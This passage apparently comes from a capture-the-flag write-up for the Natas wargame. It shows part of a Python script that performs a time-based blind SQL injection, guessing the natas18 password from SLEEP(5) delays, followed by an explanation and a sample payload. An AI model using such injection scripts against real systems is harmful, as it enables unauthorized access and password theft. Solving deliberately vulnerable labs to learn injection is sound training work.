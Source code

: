 ```py
                    password = password + lower
                    print(password)
            except:
                pass

            upper = char.upper()
            _payload = {'username':'natas18" and if (password LIKE BINARY "'+password+upper+'%", SLEEP(5), 0) #'}
            response = receive_response(_payload)
            response_time = str(response.elapsed)
            dot_index = response_time.index(".")
            response_time = response_time[0:dot_index]
            try:
                last_index = len(response_time)
                response_time_seconds = int(response_time[last_index-1:last_index])
                if(response_time_seconds >= 5):
                    password = password + upper
                    print(password)
            except:
                pass
    print(password)


analyse_time()
```

Looking at the PHP code:

```php
if($res) {
    if(mysql_num_rows($res) > 0) {
        //echo "This user exists.<br>";
    } else {
        //echo "This user doesn't exist.<br>";
    }
    } else {
        //echo "Error in query.<br>";
    } 
```

All lines are commented out, implying there is no way to know whether the query was successful or not. The only way is to analyse other parts of the response. Here comes the timed SQL injection attack into the scene.

```sql
SELECT * FROM users WHERE username=""
```

If the username is set as `natas18" and password="" and ...`, then the AND logical operator works as if the first condition fails, then the second condition is checked. Our job here is to craft a condition such that the response takes long to return if we got certain condition true.

```sql
{ 'username' : 'natas18" and if (password LIKE BINARY "a%", SLEEP(5), 0) # }
```
